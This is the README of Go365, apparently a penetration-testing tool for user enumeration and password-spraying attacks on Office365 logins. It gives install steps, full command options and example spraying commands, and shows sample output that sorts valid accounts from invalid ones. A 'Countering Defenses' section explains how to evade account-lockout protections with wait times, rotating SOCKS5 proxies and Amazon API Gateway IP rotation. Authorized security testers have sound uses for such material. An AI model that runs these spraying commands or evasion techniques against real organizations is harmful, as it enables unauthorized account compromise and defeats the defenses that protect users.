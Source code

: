 # Go365

**This tool is still in development. Please read all of this README before using Go365!**

Go365 is a tool designed to perform user enumeration* and password guessing attacks on organizations that use Office365 (now/soon Microsoft365). Go365 uses a unique SOAP API endpoint on login.microsoftonline.com that most other tools do not use. When queried with an email address and password, the endpoint responds with an Azure AD Authentication and Authorization code. This code is then processed by Go365 and the result is printed to screen or an output file.

\* User enumeration is performed in conjunction with a password guess attempt. Thus, there is no specific flag or funtionality to perform only user enumeration. Instead, conduct your first password guessing attack, then parse the results for valid users.

##### Read these three bullets!

- This tool might not work on **all** domains that utilize o365. Tests show that it works with most federated domains. Some domains will only report valid users even if a valid password is also provided. Your results may vary!
- The domains this tool was tested on showed that it did not actually lock out accounts after multiple password failures. Your results may vary!
- This tool is intended to be used by security professionals that are authorized to "attack" the target organization's o365 instance.

## Obtaining

#### Option 0

```
go get -u github.com/optiv/Go365
```

#### Option 1

Download a pre-compiled binary for your OS [HERE](https://github.com/optiv/Go365/releases).

#### Option 2

Download the source and compile locally.

1. Install Go.
2. Go get some packages:

```
go get github.com/beevik/etree
go get github.com/fatih/color
go get golang.org/x/net/proxy
```

3. Clone the repo.
4. Navigate to the repo and compile ya dingus.

```
go build Go365.go
```

5. Run the resulting binary and enjoy :)

## Usage

```
$ ./Go365 -h

  ██████         ██████   ██████  ██████
 ██                   ██ ██       ██
 ██  ███   ████   █████  ███████  ██████
 ██    ██ ██  ██      ██ ██    ██      ██
  ██████   ████  ██████   ██████  ██████

 Version: 0.2
 Authors: h0useh3ad, paveway3, S4R1N, EatonChips

 This tool is currently in development.

 Usage:
     ./Go365 -ul <userlist> -p <password> -d <domain> [OPTIONS]
 Options:
     -h,            Show this stuff

	 Required:
     -u string              Username to use
                              - Username with or without "@domain.com"
                              (-u legit.user)
     -ul <file>             Username list to use
															- File should contain one username per line
															- Usernames can have "@domain.com"
                              - If no domain is specified, the -d domain is used
                              (-ul ./usernamelist.txt)
     -p <string>            Password to attempt
                              - Enclose in single quotes if it contains special characters
                              (-p password123  OR  -p 'p@s$w0|2d')
     -pl <file>            Password list to use
                              - File should contain one password per line
                              - Must be used with -delay
                              (-pl ./passwordlist.txt)
     -up <file>            Userpass list to use
															- One username and password separated by a ":" per line
                              - Be careful of duplicate usernames!
                              (-up ./userpasslist.txt)
     -d <string>            Domain to test
                              (-d testdomain.com)

   Optional:
     -w <int>              Time to wait between attempts in seconds.
                              - Default: 1 second. 5 seconds recommended.
                              (-w 10)
     -delay <int>          Delay (in seconds) between sprays when using a password list.
                              - Default: 10 minutes. 60 minutes (3600 seconds) recommended.
                              (-delay 600)
     -o <string>           Output file to write to
                              - Will append if file exists, otherwise a file is created
                              (-o ./output.out)
     -proxy <string>       Single proxy server to use
                              - IP address and Port separated by a ":"
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxy 127.0.0.1:1080)
     -proxyfile <string>    A file with a list of proxy servers to use
                              - IP address and Port separated by a ":" on each line
                              - Randomly selects a proxy server to use before each request
                              - Has only been tested using SSH SOCKS5 proxies
                              (-proxyfile ./proxyfile.txt)
     -url <string>          Endpoint to send requests to
                              - Amazon API Gateway 'Invoke URL'
                              (-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login)
     -debug                 Debug mode.
                              - Print xml response
```

### Examples

```
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
./Go365 -up ./userpass_list.txt -d pwnthisfakedomain.com -w 5 -o Go365output.txt
./Go365 -u legituser@pwnthisfakedomain.com -p 'coolpasswordbro!123' -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
./Go365 -u legituser -pl ./pass_list.txt -delay 1800 -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
./Go365 -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login
```

## Account Locked Out! (Domain Defenses)

**protip:** _You probably aren't **actually** locking out accounts._

After a number of queries against a target domain, results might start reporting that accounts are locked out.

Once this defense is triggered, **user enumeration becomes unreliable since requests for valid and invalid users will randomly report that their accounts have been locked out**.

```
...
[-] User not found: test.user90@pwnthisfakedomain.com
[-] User not found: test.user91@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user92@pwnthisfakedomain.com
[!] Account Locked Out: real.user1@pwnthisfakedomain.com
[-] Valid user, but invalid password: test.user93@pwnthisfakedomain.com
[!] Account Locked Out: valid.user94@pwnthisfakedomain.com
[!] Account Locked Out: jane.smith@pwnthisfakedomain.com
[-] Valid user, but invalid password: real.user95@pwnthisfakedomain.com
[-] Valid user, but invalid password: fake.user96@pwnthisfakedomain.com
[!] Account Locked Out: valid.smith@pwnthisfakedomain.com
...
```

This is a defensive mechanism triggered by the number of **valid** user queries against the target domain within a certain period of **time**. The number of attempts and the period of time will vary depending on the target domain since the thresholds can be customized by the target organization.

### Countering Defenses

#### Wait time

The defensive mechanism is **time** and **IP address** based. Go365 provides options to include a wait time between requests and proxy options to distribute the source of the requests. To circumvent the defensive mechanisms on your target domain, use a long wait time and multiple proxy servers.

A wait time of AT LEAST 15 seconds is recommended. `-w 15`

#### SOCKS5 Proxies

If you still get "account locked out" responses, start proxying your requests. Proxy options have only been tested on SSH SOCKS5 dynamic proxies (`ssh -D <port> user@proxyserver`)

Create a bunch of SOCKS5 proxies on DO or AWS or Vultr or whatever and make a file that looks like this:

```
127.0.0.1:8081
127.0.0.1:8082
127.0.0.1:8083
127.0.0.1:8084
127.0.0.1:8085
127.0.0.1:8086
...
```

The tool will randomly iterate through the provided proxy servers and wait for the specified amount of time between requests.

`-w 15 -proxyfile ./proxies.txt`

#### Amazon API Gateway

Additionally, an endpoint url may be specified so this tool can interface with Amazon API Gateway. Setup a gateway to point to the `https://login.microsoftonline.com/rst2.srf` endpoint, then set the -url parameter to the provided `Invoke URL`. Your IP should be rotated with each request.

`-url https://k62g98dne3.execute-api.us-east-2.amazonaws.com/login`
